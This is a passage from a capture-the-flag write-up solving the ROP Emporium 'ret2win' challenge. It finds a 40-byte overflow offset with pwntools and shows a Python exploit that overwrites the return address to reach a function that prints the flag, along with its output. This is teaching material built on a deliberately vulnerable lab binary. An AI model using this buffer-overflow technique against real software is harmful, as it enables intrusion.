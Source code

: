 Entering that back into pwntools cyclic command gives us 40!
```sh
$ pwn cyclic -l kaaa
40
```
So that's nice :) And now we know that we want to write our return address into the buffer with a 40byte offset.
This challenge is pretty simple - there's a convenient command in the code section that we want to jump to:

![The ret2win function](/images/ret2win-5.png "ret2win function")

We just need to jump to 0x00400824 so that it will put a pointer to the string "/bin/cat flag.txt" into the rdi register and then go to the system call.
Doing this with python is fairly straightforwards, especially with the pwntools library:
```python
from pwn import *

prog = process("./ret2win")

payload = "A" * 40
payload += p64(0x00400824)

open('payload', 'w').write(payload)
```

pwntools includes all sorts of useful utilities. In this case, we're using the `p64` function to pack our address correctly for 64bit into a payload string. We'll use a bunch more of pwntools functionality later in the challenges.

Then running out exploit is as simple as:
```sh
$ python exploit.py
$ ./ret2win < payload

ret2win by ROP Emporium
64bits

For my first trick, I will attempt to fit 50 bytes of user input into 32 bytes of stack buffer;
What could possibly go wrong?
You there madam, may I have your input please? And don't worry about null bytes, we're using fgets!

> ROPE{a_placeholder_32byte_flag!}
```
And we have the flag!
